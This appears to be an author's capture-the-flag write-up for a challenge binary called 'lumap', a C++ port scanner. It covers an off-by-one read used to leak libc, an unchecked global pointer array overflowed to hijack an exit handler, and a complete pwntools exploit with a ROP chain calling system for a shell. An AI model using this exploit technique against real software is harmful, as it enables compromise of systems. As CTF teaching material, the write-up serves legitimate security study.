As the name suggest, lumap comes from the famous network scanner nmap. It is written in C++ and we can scan the ports of a target of our choosing.
Let's check the binary's mitigations:


I'll cover the basic functionality and where the vulnerability is.
Firstly, we choose an ip to scan.


The binary has a similar functionality to the nmap -p argument. 
If we send a single number then the binary will understand that as an interval of ports from 0 to your selected number, scanning
the (0, yournumber] interval. However, you can also add invididual ports to scan like this 80,23,35.


The binary also has a database functionality. 


I won't go over all the code from this functionality, because it is a lot, but there are 2 main cases:

1) A database will be created and all the opened ports will be saved in case the user selected an interval scan.


2) A database will be created and all the opened ports AND closed ports will be saved in case the user chose individual ports.


We can already see a potential vulnerability in this picture. We haven't selected the "849" port, however it is saved in the database as closed.
Let's see why that happens in the code:


In the main function, we can see the ports are stored in the heap using operator new[]. After saving the ports on the heap, it calls sub_439FEE which seems
to be the function which does the port scan. The second argument, v26, is the pointer to the heap memory where the numbers are stored. We can guess that
the third argument could be the number of the ports saved. Let's dynamically check this using gdb.


RDX is equal to 0x6, which is the number of ports we selected. The vulnerability is not in the main function. Let's continue the code flow to see what happens with the ports.


This function seems to act as a loop that goes through each of our ports, since sub_439c7c is the function that scans our port as evidenced by the use of the connect() and socket() functions.


But the interesting code in this loop is the if statement:

```c
if (a3 < i)
    break;
```

We know a3 is the number of ports selected. This if statement could be translated into the following for loop that ida failed to see:
```c
for (int i = 0; i <= a3; i++){
    ...
}
```

The loop goes for one step longer than it needs to, because of the <= operator. This caused the "849" to appear as closed in our database, because it was the next value in the heap after our numbers.
After scanning one IP address, the program asks you if you want to continue scanning other targets.


After successfully scanning 2 or more targets, you get to this menu:


It is a menu that lets you scan an infinite number of targets. It also opens the localdb database where our ports are stored and prints the table with the open or closed ports. For example, in the above picture l wanted to see which ports l found open in my first scan (ID = 0), so the program opened up the database and printed them for me.
Because of this functionality, we can abuse the bug we found earlier to get a memory leak and calculate the libc base.
```python
#!/usr/bin/env python3

from pwn import *
import sys
elf = ELF('./lumap')
p = elf.process()

def scanIP(ip, ports):
    p.readuntil(b':')
    p.sendline(ip.encode())
    p.readuntil(b':')
    p.sendline(ports)

def showIP(index):
    p.readuntil(b':')
    p.sendline(b'1')
    p.readuntil(b':')
    p.sendline(index.encode())

def deleteIP(index):
    p.readuntil(b':')
    p.sendline(b'2')
    p.readuntil(b':')
    p.sendline(index.encode())

scanIP("127.0.0.1", ",,,,,,,,,,,,,,,,,,,,,,,,10")
p.sendline(b'y')
scanIP("127.0.0.2", ",,,,,,,,,,,,,,,,,,,,,,,10")
showIP("0")
p.readuntil(b'closed10,')
Leak1 = p.readuntil(b'\n')[:-1]
Leak1 = hex(int(Leak1[6:]))

showIP("1")
p.readuntil(b'closed10,')
Leak2 = p.readuntil(b'\n')[:-1]
Leak2 = Leak2[6:]
if (Leak2[0] == 45):
    print("Try again lol")
    sys.exit()
Leak2 = hex(int(Leak2))
Leak2 = Leak2[2:]
Leak = int(Leak1 + Leak2, 16)
Leak = Leak - 6466976
print("LIBC BASE {}".format(hex(Leak)))
```

To make debugging easier and make sure everything is right, l made an extra if statement if the leak is bugged to close the exploit. What l did in this exploit was to add the , character (The program splits the ports based on the ```,``` character so you don't actually have to put a number there it will automatically put a 0) and l calculated how many numbers needs to be put so that the next value on the heap would be a libc address.
The reason why two scans are needed to get a full leak is because of the implementation of the ports. If we check the main code again:
```c
v26 = (void *)operator new[](4 * v10);
```

We can see that the numbers are saved as an int (4 bytes is the size of an int), but since a libc address has 6 bytes we need two leaks.

We only talked about the menu after scanning two or more IP addresses, but let's also check the code.


If we choose to "View a scan" we'll be redirected to this function:


This code executes the SQL query to get the ports from our database.


Here the binary saves the ports in the heap and then prints them. The interesting code is this:
```c
qword_456CA0[v27] = malloc(2LL * (v28 - 1));
```
It seems like the program saves the pointer of the malloc to a statically allocated array. We can guess that it looks something like this:
```c
int* qword_456CA0[16];
```
This is important because nowhere in the code do we have a check regarding how many IP addresses we can scan. That means, if we scan more than 16 IP addresses we'll start overwriting addresses in memory with heap pointers. 

Let's inspect the memory dynamically to see what is stored near that address. I'll scan the IP address 127.0.0.1 and 127.0.0.2 with the individual ports 80,80,80.
After viewing the ports, we can check that the pointer of the malloc has been saved in 0x456ca0.


It seems like the malloc pointer has been stored, since 0x50 is 80 in decimal. After the 16 qwords of memory we see interesting values


We see some bytes that represent a string, which printed is this:
```
pwndbg> x/s 0x456d70
0x456d70:	"localdb.sqlite3"
```
Is the database name. It seems like some global variables are stored after the array.
Another interesting pointer is the one after the database name:


It is a pointer with executable code. This mean that somehow the binary calls this pointer somewhere to execute code, which seems to be an exit function because of the std::terminate().
Setting a breakpoint at the exit function, we will eventually reach this function:


We can notice now we are at the assembly instruction
```
mov rsp, rdi
```
The rsp register typically points to the top of the stack in x86-64 architecture. Modifying rsp effectively changes the stack pointer, which can be used to set up a new stack frame or adjust the stack in some way. In our case, the stack adjusts to the 0x456d90 address and after doing so it will execute the first pointer on the new stack, which is exactly the pointer to the exit function we noticed earlier. 

What can we do to obtain code execution? Lets understand our overwrite better.
Since we can allocate as many IP addresses as we want, we can overwrite the first pointer on the new stack after the ```mov rsp, rdi``` instruction. However, we can't overwrite it with a value of our choosing, a value with a heap chunk will be put there. But this is perfect because we can actually choose what is in the heap chunk, our ports are stored there!

Final idea: Scan as many addresses as necessary to reach the pointer of the exit function in memory. Then, in the new scan we'll set the ports so that they will represent a ROP chain that calls system. View the scan, overwrite the pointer then choose to exit the program so that our malicious heap chunk with a ROP chain gets executed.

The exploit:
```python
#!/usr/bin/env python3

from pwn import *
import sys
elf = ELF('./lumap')
p = elf.process()

def scanIP(ip, ports):
    p.readuntil(b':')
    p.sendline(ip.encode())
    p.readuntil(b':')
    p.sendline(ports)

def showIP(index):
    p.readuntil(b':')
    p.sendline(b'1')
    p.readuntil(b':')
    p.sendline(index.encode())

def deleteIP(index):
    p.readuntil(b':')
    p.sendline(b'2')
    p.readuntil(b':')
    p.sendline(index.encode())

scanIP("127.0.0.1", ",,,,,,,,,,,,,,,,,,,,,,,,10")
p.sendline(b'y')
scanIP("127.0.0.2", ",,,,,,,,,,,,,,,,,,,,,,,10")
showIP("0")
p.readuntil(b'closed10,')
Leak1 = p.readuntil(b'\n')[:-1]
Leak1 = hex(int(Leak1[6:]))

showIP("1")
p.readuntil(b'closed10,')
Leak2 = p.readuntil(b'\n')[:-1]
Leak2 = Leak2[6:]
if (Leak2[0] == 45):
    print("Try again lol")
    sys.exit()
Leak2 = hex(int(Leak2))
Leak2 = Leak2[2:]
Leak = int(Leak1 + Leak2, 16)
Leak = Leak - 6466976
print("LIBC BASE {}".format(hex(Leak)))

deleteIP("0")
deleteIP("1")

for i in range(1, 32):
    p.readuntil(b':')
    p.sendline(b'3')
    scanIP(f"127.0.0.{i}", "80,"*32)

system = (hex(Leak + 331120))[2:]
libc = (hex(Leak + 1934968))[2:]

num1 = str(int(libc[0:4], 16)).encode()
num2 = str(int(libc[4:8], 16)).encode()
num3 = str(int(libc[8:12], 16)).encode()

num4 = str(int(system[0:4], 16)).encode()
num5 = str(int(system[4:8], 16)).encode()
num6 = str(int(system[8:12], 16)).encode()

Payload = b"20506,64,0,0," # 0x000000000040501a : ret
Payload += b"38386,65,0,0," # 0x00000000004195f2 : pop rdi ; pop rbp ; ret
Payload += num3 + b"," + num2 + b"," + num1 + b"," + b"0," # libc
Payload += b"0,0,0,0," # null for the pop rbp
Payload += num6 + b"," + num5 + b"," + num4 + b"," + b"0," # system

p.readuntil(b':')
p.sendline(b'3')
scanIP("127.0.0.100", Payload)
showIP("31")
sleep(0.2)

p.sendline(b'4')
p.readuntil(b'Deleted the local database...\n')

p.interactive()
```
And we get a shell:


Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the Dockerfile, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/lumap.zip)